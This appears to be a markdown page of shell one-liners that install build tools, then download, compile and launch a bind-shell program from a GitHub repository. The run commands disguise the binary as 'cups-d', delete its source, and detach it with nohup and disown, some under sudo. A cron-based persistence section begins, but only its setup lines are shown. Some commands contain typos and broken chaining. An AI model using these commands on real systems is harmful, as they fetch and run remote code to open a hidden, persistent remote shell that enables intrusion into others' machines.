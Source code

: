 # One-liners:
## BIND / WGET / GCC
### SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
### RUN(current user):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d; rm -f ./bind.c 2>/dev/null; (nohup ./cups-d &) && disown 2>/dev/null
```
### RUN(via sudo):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d; rm -f ./bind.c 2>/dev/null; (sudo nohup sudo ./cups-d &) && disown 2>/dev/null
```

## BIND / Curl / GCC
### SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
### RUN(current user):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || (nohup ./cups-d &) || disown 2>/dev/null
```
### RUN(via sudo):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || (sudo nohup sudo ./cups-d &) || disown 2>/dev/null
```
## BIND / Git / GCC
### SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
### RUN(current user):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && (nohup ./cups-d &) && disown 2>/dev/null
```
### RUN(via sudo):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && (sudo nohup sudo ./cups-d &) && disown 2>/dev/null
```

## BIND-CRON / WGet / GCC
### SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
### SETUP(via sudo):
```console
sudo apt-get install –yes wget gcc binutils cron
```
